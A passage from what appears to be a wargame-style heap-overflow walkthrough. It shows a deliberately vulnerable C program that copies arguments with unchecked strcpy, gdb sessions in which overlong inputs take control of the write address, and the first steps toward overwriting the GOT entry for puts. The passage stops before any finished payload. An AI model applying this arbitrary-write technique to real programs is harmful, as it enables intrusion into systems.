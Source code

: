 ```c

  i2 = malloc(sizeof(struct internet));
  i2->priority = 2;
  i2->name = malloc(8);

  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);

  printf("and that's a wrap folks!\n");
}
```

Running the program with two 4 byte inputs, runs as expected:

    # ./heap1 AAAA BBBB
    and that's a wrap folks!


However with inputs that exceed the 8 byte allocated heap chunks:

    gdb-peda$ r AAAABBBBCCCCDDDDEEEEFFFFGGGG 000011112222333344445555
    Stopped reason: SIGSEGV
    *__GI_strcpy (dest=0x46464646 <Address 0x46464646 out of bounds>, \
        src=0xbffffe66 "000011112222333344445555") at strcpy.c:40

Segfaults. Noting the dest of the `strcpy` now has an address of `0x46464646` (or the FFFF characters from the first input argument). Given that we can control the destination address (offset of the FFFF characters), and source data by overflowing enough of the heap segment, have an *arbitary write to anywhere* vulnerability.

A real world attack could involve mutating one of the GOT (global offset table) address for a function call to a dynamically linked piece of functionality tied in the linker (`ld.so`).


    gdb-peda$ backtrace
    #0  *__GI_strcpy (dest=0x46464646 <Address 0x46464646 out of bounds>, \
        src=0xbffffe66 "000011112222333344445555") at strcpy.c:40
    #1  0x080485ad in main (argc=0x3, argv=0xbffffd14) at main.c:30
    #2  0xb7e8de46 in __libc_start_main (main=0x8048510 <main>, argc=0x3)
    #3  0x08048421 in _start ()


Disassembling the instruction responsible for calling `strcpy`:

    gdb-peda$ disass 0x080485ad
    Dump of assembler code for function main:
    ...
    0x080485a8 <+152>:   call   0x80483b0 <strcpy@plt>
       0x080485ad <+157>:   mov    DWORD PTR [esp],0x804866b
       0x080485b4 <+164>:   call   0x80483d0 <puts@plt>
       0x080485b9 <+169>:   leave
       0x080485ba <+170>:   ret
    End of assembler dump.

Reveals `puts@plt` is invoked after the dangerous `strcpy` call. To get to the GOT table, must first disassembly the PLT (procedure linkage table) trampoline to the GOT.
